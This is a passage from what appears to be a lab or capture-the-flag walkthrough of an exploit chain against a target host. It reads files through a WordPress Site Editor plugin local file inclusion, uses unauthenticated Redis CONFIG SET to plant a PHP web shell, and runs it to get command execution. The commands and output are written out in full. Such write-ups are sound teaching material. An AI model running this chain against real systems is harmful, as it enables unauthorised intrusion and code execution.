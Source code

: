 That didn't work. It appears that we don't have access to write to that directory. Perhaps the Redis service configuration will tell us where we can write to on the target system. Let's use the WordPress LFI to read **/etc/systemd/system/redis.service**.

```
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.120.85/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/systemd/system/redis.service          
...
ProtectSystem=true
ReadWriteDirectories=-/etc/redis
ReadWriteDirectories=-/opt/redis-files

[Install]
WantedBy=multi-user.target
Alias=redis.service
{"success":true,"data":{"output":[]}}
```

This file lists two folders as "READWRITEDIRECTORIES", **/etc/redis** and **/opt/redis-files**. Let's attempt to write a test file using Redis to the **/opt/redis-files** path.

```
192.168.120.85:6379> config set dir /opt/redis-files
OK
192.168.120.85:6379> config set dbfilename test.php
OK
192.168.120.85:6379> set test "<?php system('id'); ?>"
OK
192.168.120.85:6379> save
OK
192.168.120.85:6379> 
```

We can then use the WordPress LFI to read this file. The contents will be in Redis RDB format so let's output it to a file and run `strings`.

```
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.120.85/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/opt/redis-files/test.php -o test.php
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   193  100   193    0     0   2014      0 --:--:-- --:--:-- --:--:--  2031
                                                                                                            
┌──(kali㉿kali)-[~]
└─$ file test.php                  
test.php: Redis RDB file, version 0009
                                                                                                            
┌──(kali㉿kali)-[~]
└─$ strings test.php      
REDIS0009
        redis-ver
5.0.14
redis-bits
ctime
used-mem
aof-preamble
test
uid=1000(alice) gid=1000(alice) groups=1000(alice)
 {"success":true,"data":{"output":[]}}
```
